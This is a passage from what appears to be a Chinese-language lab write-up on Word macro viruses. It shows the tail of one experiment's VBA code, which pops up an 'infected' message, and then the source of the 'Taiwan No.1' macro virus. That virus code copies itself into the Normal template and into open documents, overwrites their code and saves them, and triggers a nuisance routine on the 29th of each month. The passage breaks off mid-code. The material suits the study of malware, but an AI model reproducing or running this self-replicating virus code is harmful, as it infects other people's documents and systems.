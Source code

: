 ```vb
    End If
End With
MsgBox "中毒了"
End Sub
```

#### 实现效果
<div align="center">
<img src="../../Document_pic/202303081935.png" width="50%">

图2 运行程序时弹出窗体
</div>


### 实验三 “台湾一号”宏病毒代码

#### 实现代码
```vb
'moonlight
Dim nm(4)
Sub Document_Open()
'DisableInput 1
Set ourcodemodule = ThisDocument.VBProject.VBComponents(1).CodeModule
Set host = NormalTemplate.VBProject.VBComponents(1).CodeModule
If ThisDocument = NormalTemplate Then
    Set host = ActiveDocument.VBProject.VBComponents(1).CodeModule
End If
With host
If .Lines(1, 1) <> "'moonlight" Then
    .DeleteLines 1, .CountOfLines
.InsertLines 1, ourcodemodule.Lines(1, 100)
.ReplaceLine 3, "Sub Document_Close()"
    If ThisDocument = NormalTemplate Then
        .ReplaceLine 3, "Sub Document_Open()"
        ActiveDocument.SaveAs ActiveDocument.FullName
    End If
End If
End With
Count = 0
If Day(Now()) = 29 Then
try:
        On Error GoTo try
        test = -1
        con = 1
        tog$ = ""
        i = 0
        While test = -1
            For i = 0 To 4
                nm(i) = Int(Rnd() * 10)
                con = con * nm(i)
                If i = 4 Then
                    tog$ = tog$ + Str$(nm(4)) + "=?"
```